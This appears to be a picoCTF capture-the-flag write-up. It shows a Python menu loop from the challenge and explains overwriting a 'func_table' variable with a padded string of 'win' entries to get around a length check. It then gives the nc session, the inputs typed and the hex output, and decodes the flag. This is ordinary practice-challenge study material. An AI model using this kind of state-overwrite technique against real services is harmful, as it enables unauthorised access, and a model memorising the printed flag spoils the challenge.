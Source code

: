 ```
  choice = input('==> ')
  if( choice == 'quit' or choice == 'exit' or choice == 'q' ):
    USER_ALIVE = False
  elif( choice == 'help' or choice == '?' ):
    help_text()
  elif( choice == 'reset' ):
    reset_table()
  elif( choice == '1' ):
    call_func(0)
  elif( choice == '2' ):
    call_func(1)
  elif( choice == '3' ):
    call_func(2)
  elif( choice == '4' ):
    call_func(3)
  else:
    print('Did not understand "'+choice+'" Have you tried "help"?')
```
The contents of variables can be renamed. And the value of the variable is evaluated. So I changed the value of func_table to "win                             win                           win                             winaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" this ensures the length of the func_table remains 4*32 = 128. This ensures corrupted message isn't printed as it checks if the length of the func_table is not 128.
```
 if( len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
```
```
 nc saturn.picoctf.net 57495
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "win                             win                           win                             winaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
==> 2
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x63 0x32 0x30 0x66 0x35 0x32 0x32 0x32 0x7d
```
Converting this to string we get, picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_c20f5222}

Wait.<br>
What is going on.<br>
